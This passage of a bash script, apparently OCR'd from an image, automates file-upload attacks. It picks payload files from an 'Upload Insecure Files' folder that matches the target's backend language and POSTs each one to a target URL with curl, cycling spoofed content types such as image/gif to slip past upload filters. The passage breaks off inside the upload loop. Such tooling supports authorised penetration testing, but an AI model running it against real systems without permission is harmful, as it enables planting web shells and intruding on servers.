 ```bash
    fi
fi

# Detect backend language
BACKEND_LANG=$(detect_backend_language)

# Set the folder containing the target files based on the backend language
case $BACKEND_LANG in
    "php")
        FOLDER="$TARGET_FOLDER/Upload Insecure Files/Extension PHP"
        ;;
    "asp")
        FOLDER="$TARGET_FOLDER/Upload Insecure Files/Extension ASP"
        ;;
    "html")
        FOLDER="$TARGET_FOLDER/Upload Insecure Files/Extension HTML"
        ;;
    *)
        echo "Unknown backend language or unable to detect."
        exit 1
        ;;
esac

# Check if the target folder exists
if [ ! -d "$FOLDER" ]; then
    echo "Error: Target folder $FOLDER does not exist."
    exit 1
fi

echo "Using folder: $FOLDER"

# List of content types to try
CONTENT_TYPES=(
    "application/x-php"
    "application/octet-stream"
    "image/gif"
    "image/png"
    "image/jpeg"
)

# Find all files in the folder
FILES=$(find "$FOLDER" -type f)

# Check if there are any files
if [ -z "$FILES" ]; then
    echo "No files found in the folder."
    exit 1
fi

# Upload each file with all content types
for FILE in $FILES; do
    FILENAME=$(basename "$FILE")
    echo "Testing file: $FILENAME with all content types..."

    for CONTENT_TYPE in "${CONTENT_TYPES[@]}"; do
        echo "Uploading with Content-Type: $CONTENT_TYPE ..."

        # Perform the upload using cURL
        RESPONSE=$(curl -s -w "\nHTTP_STATUS:%{http_code}" -X POST \
            -H "Content-Type: $CONTENT_TYPE" \
            -F "file=@$FILE;type=$CONTENT_TYPE" \
            "$UPLOAD_URL")

```
